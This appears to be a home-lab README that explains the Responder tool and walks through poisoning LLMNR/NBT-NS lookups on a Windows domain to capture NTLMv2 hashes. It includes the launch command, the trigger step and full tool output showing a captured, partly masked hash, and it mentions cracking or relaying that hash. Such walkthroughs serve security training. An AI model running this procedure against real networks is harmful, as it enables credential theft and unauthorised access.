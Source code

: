 ### 🔧 **What is Responder?**
Responder is an **LLMNR, NBT-NS, and MDNS poisoner** — meaning it listens for broadcast name resolution requests and responds to them with fake data, tricking machines into sending sensitive information (like hashes).

---

###  **Main Uses of Responder**
1. **Capturing NTLMv1/v2 Hashes**
   - If a victim machine tries to access a resource (like `\\nonexistent\share`) and can't resolve the name via DNS, it falls back to **LLMNR** or **NBT-NS**.
   - Responder replies with “Hey, I’m that machine!” and the victim sends over **NTLM hashes** to authenticate.
   - These hashes can be **cracked offline** or used in **relay attacks**.

2. **SMB Relay Attacks**
   - In combination with tools like **NTLMRelayX**, Responder can forward NTLM hashes to other systems (like SMB or LDAP) to gain access or escalate privileges.
   - Useful in scenarios where cracking hashes is impractical.

---

###  Common Protocols Targeted by Responder
- **LLMNR (Link-Local Multicast Name Resolution)**
- **NBT-NS (NetBIOS Name Service)**
- **MDNS (Multicast DNS)**
- **SMB, HTTP, FTP, IMAP, LDAP, SQL, etc.** — Responder can impersonate these services too.


###  **Use Case: Capturing NTLMv2 Hashes with Responder**

#### **Scenario**
You have:
- A **Windows domain environment** with a **Domain Controller (DC)**.
- One or more **Windows client machines** joined to the domain.
- A **Kali Linux box** (or any Linux system) on the same network running **Responder**.

#### **Objective**
Capture **NTLMv2 hashes** when a domain-joined machine tries to resolve an unknown hostname.

---

###  **Step-by-Step Walkthrough**

#### 1. **Run Responder on Kali**
```bash
sudo responder -I eth0 -dwv 
```
<img src="Imgs/image1.png" alt="Error loading image">

- Replace `eth0` with your actual interface (use `ip a` to check).
- Responder starts poisoning LLMNR and NBT-NS requests.

#### 2. **Simulate a User Trying to Access an Attacker system**
From a Windows machine, run:
```cmd
\\<Target ip>>
```
<img src="Imgs/image2.png" alt="Error loading image">

 Windows will first try DNS, and if that fails, it falls back to **LLMNR/NBT-NS**. That’s where Responder comes in.

#### 3. **Capture Hashes**
On Kali, we’ll see output like:

```bash
                                                                                                                                                            
┌──(kali㉿kali)-[~/Home-lab]
└─$ sudo responder -I eth0                                   

[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.129.137]
    Responder IPv6             [fe80::47e3:71c9:2b96:c9c7]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-Q0PDMTV8IGR]
    Responder Domain Name      [ZNAF.LOCAL]
    Responder DCE-RPC Port     [48776]

[+] Listening for 

[SMB] NTLMv2-SSP Client   : 192.168.129.141
[SMB] NTLMv2-SSP Username : FURIOUS\jack
[SMB] NTLMv2-SSP Hash     : jack::FURIOUS:057cf8ca8755df48:4171E167B691B8DCDDDE7B3522D7046C:010100000000000080B15D56F2B3DB0128C5A8DA0625D9B800000000020008005A004E004100460001001E00570049004E002D0051003000500044004D0054005600380049004700520004003400570049004E002D0051003000500044004D005400560038004900470052002E005A004E00410046002E004C004F0043004********************************************************************************************************************************************************************************************************
[+] Exiting...

```

we’ve captured a **hash** that can now be cracked with `hashcat` or relayed.

---




